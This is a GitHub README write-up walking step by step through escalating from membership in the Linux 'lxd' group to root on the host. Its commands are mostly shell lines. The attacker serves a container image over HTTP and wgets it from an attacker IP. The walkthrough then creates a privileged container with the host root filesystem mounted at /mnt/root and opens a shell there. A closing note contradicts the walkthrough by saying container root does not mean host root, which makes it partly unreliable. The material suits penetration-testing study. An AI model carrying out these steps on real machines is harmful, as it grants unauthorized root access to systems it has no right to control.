 # Lxd-Privilege-Escalation-in-Linux
In this writeup we will cover how a member of a local “lxd” group can instantly escalate the privileges to root on the host operating system.






## Follow the Steps:

#### First, run the id command to check whether your user belongs to the lxd group or not.
 
```
id
```

![ID](./img/id.png)
#



#### If lxd is listed, then continue.
#### Download a this Alpine Linux container image from github.
```
git clone https://github.com/zaaraZiof0/Lxd-Privilege-Escalation-in-Linux.git
```

![Git Clone](./img/gitclone.png)
#


#### Now share this image file alphine-v3.13-x86_64-20210218_0139.tar.gz to the victim machine.
```
python3 -m http.server 80
```

![Python Server](./img/server.png)
#


#### Download the image file with wget command.
```
wget 10.8.9.235/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

![Download with wget](./img/wget.png)
#


#### Now import this lxd container into lxd environment and give it an alias.
```
lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
```

![fringerPrint](./img/fringer.png)
#


#### Display a list of all the images stored in the local LXD image store
```
lxc image list
```

![ALIAS](./img/alias.png)
#


#### Now run the following command one by one.
```
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

![](./img/gain.png)
#


#### Navigate to /mnt/root to access the host's filesystem with root privileges
```
cd /mnt/root
```

![flag](./img/flag.png)

#### Now here we have full control within the container.

#

### Note: Being root inside a container doesn’t automatically translate to having root access on the host system, as containers are designed to isolate processes.

#### Happy Hacking…. | ZAARA
